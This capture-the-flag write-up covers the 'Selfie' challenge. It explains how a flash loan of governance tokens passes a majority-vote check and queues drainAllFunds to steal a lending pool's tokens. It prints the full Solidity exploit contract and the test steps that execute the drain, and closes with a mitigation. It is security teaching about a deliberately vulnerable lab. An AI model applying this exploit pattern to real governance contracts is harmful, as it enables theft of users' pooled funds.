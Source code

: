 # Challenge #6: Selfie

The goal of this challenge is to steal all DVT tokens from the pool contract. The challenge seems to be quite easy because the contract has a *drainAllFunds* function that sends all its tokens to the sender. The trick is that it is protected by *onlyGovernance* modifier that requires the transaction to be sent by the governance contract.

Basically, this challenge is an example of a governance mechanism that needs to be abused. The idea of the governance in smart contracts is to decentralize the important functions (e.g. functions that update the contract). The simplest implementation uses voting - when the proposed update is accepted by majority it is applied.

Let's check the code of governance contract. It has a *queueAction* function that allows anyone to queue and later call a function on behalf of the governance contract.  
```
function queueAction(address receiver, bytes calldata data, uint256 weiAmount) external returns (uint256) {
    require(_hasEnoughVotes(msg.sender), "Not enough votes to propose an action");
    require(receiver != address(this), "Cannot queue actions that affect Governance");

    (...)
}
```

The function is protected by two *require* statements. I will start with the second one because it is simpler. It does not allow proposals that call a function on the governance contract itself. 

The first statement calls the *_hasEnoughVotes* function which makes sure that the queued proposal is proposed by someone who has enough votes. The function simply checks whether you, a proposal submitter, have more than a half of the governance tokens. 
```
function _hasEnoughVotes(address account) private view returns (bool) {
    uint256 balance = governanceToken.getBalanceAtLastSnapshot(account);
    uint256 halfTotalSupply = governanceToken.getTotalSupplyAtLastSnapshot() / 2;
    return balance > halfTotalSupply;
}
```

Things to notice:
1. The *drainAllFunds* allows to transfer all tokens from the pool and is protected by *onlyGovernance* modifier. 
2. The *onlyGovernance* modifier makes sure that the function in called by the governance contract only.
3. The governance contract allows anyone who has more than a half of governance tokens to queue and call a function to be called by the governance contract.
3. There is a pool that lends governance tokens. 

Can you spot the attack-chain?

## Exploit

The scenario of the attack is following and executed withing one flash-loan transaction:
1. Borrowing more governance tokens than a half of its current supply from the flash loan pool. This will allow to bypass the *_hasEnoughVotes* requirement.
2. Queue a *drainAllFunds(address)* function that will transfer all tokens to the attacker.
3. Pay back the flash loan.

After that I will be able to execute queued function in another transaction.

Let's check the exploit contract:
```
function attack(IPool _lender, IERC20 _liquidityToken, IGovernance _governance) external {
    require(msg.sender == owner);
    
    lender = _lender;
    liquidityToken = _liquidityToken;
    governance = _governance;

    lender.flashLoan(1500000 ether);
} 

function receiveTokens(address token, uint256 amount) external {

    liquidityToken.snapshot();

    bytes memory calld = abi.encodeWithSignature(
            "drainAllFunds(address)",
            owner
        );

    actionId = governance.queueAction(address(lender), calld, 0);

    liquidityToken.transfer(address(lender), amount);
}

function drain() external {
    require(msg.sender == owner);

    governance.executeAction(actionId);
}
``` 

The attack is started with the *attack* function. The supply of the governance token (called liquidity token by the pool) is 2kk tokens. I borrow all the tokens that the pool has - 1.5kk tokens - but any amount grater than 1kk would be enough.

Later, in the *receiveTokens*, called back by the pool, I create a snapshot in the governance token  to make sure that the borrowed tokens are included in the current state. Next, I queue a function that calls the *drainAllFunds* and sends all tokens to the owner of the attacker contract - that is me. Finally, I pay off the loan.

After the function is queued I have to wait 2 days until it can be executed and the execute it to drain all tokens as presented on the listing below:

```
/* Wait until the queued function call can be executed */
await time.increase(time.duration.days(2));

/* Execute the function call and drain all tokens */
await this.attContract.drain({ from: attacker });
```

## Lesson learned

The governance can be tricky as shown in this example. There were some security mechanisms, such as a 2 days delay for the execution of queued function calls. Also, the idea to require the majority of votes to accept the proposal seems correct.

However, whenever you build a governance contract you must include a potential threat coming from the flash loans. Your governance token could be available in large amount from the lenders. If that is the case, someone could borrow enough tokens (for a relatively small fee) to validate their malicious proposal.

One possible mitigation to suach threat is to require the process of depositing governance tokens and proposing a change to be executed in different transactions included in different blocks. That would make use of flash loans impossible.

[<< Back to the README](../README.md)
